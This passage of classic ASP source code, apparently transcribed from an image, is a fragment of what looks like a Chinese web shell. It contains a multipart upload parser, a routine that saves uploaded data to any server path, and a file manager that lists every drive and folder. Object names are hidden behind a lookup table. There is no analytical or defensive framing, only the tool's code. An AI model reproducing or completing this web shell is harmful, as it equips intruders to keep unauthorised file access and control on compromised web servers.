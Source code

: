 T2.Position = 0 : T2.Type = 2
T2.Charset ="gb2312"
SFV = T2.ReadText
T2.Close
if D1.Exists(UpName) then
  D1(UpName)=D1(UpName)&", "&SFV
else
  D1.Add UpName,SFV
end if
  end if
  DStart=DStart+TLen+1
wend
TDa=""
set T2 =nothing
  End Sub
  Private Sub Class_Terminate
if Request.TotalBytes>0 then
  D1.RemoveAll:D2.RemoveAll
  set D1=nothing:set D2=nothing
  T1.Close:set T1 =nothing
end if
  End Sub
End Class

Class FIF
dim FileSize,FileStart
  Private Sub Class_Initialize
  FileSize = 0
  FileStart= 0
  End Sub
  Public function SaveAs(F)
  dim T3
  SaveAs=true
  if trim(F)="" or FileStart=0 then exit function
  set T3=CreateObject(ObT(6,0))
 T3.Mode=3 : T3.Type=1 : T3.Open
 T1.position=FileStart
 T1.copyto T3,FileSize
 T3.SaveToFile F,2
 T3.Close
 set T3=nothing
 SaveAs=false
end function
End Class
Class LBF
  Dim CF
  Private Sub Class_Initialize
SET CF=CreateObject(ObT(0,0))
  End Sub
  Private Sub Class_Terminate
Set CF=Nothing
  End Sub
Function ShowDriver()
For Each D in CF.Drives
  j cdx&"<a href='javascript:ShowFolder("""&D.DriveLetter&":\\"")'>&nbsp本地磁盘 ("&D.DriveLetter&":)</a><br></td></tr>" 
Next
  End Function
Function Show1File(Path) 
Set FOLD=CF.GetFolder(Path)
i=0
SI="<table width='100%' border='0' cellspacing='0' cellpadding='6'><tr>" 
For Each F in FOLD.subfolders
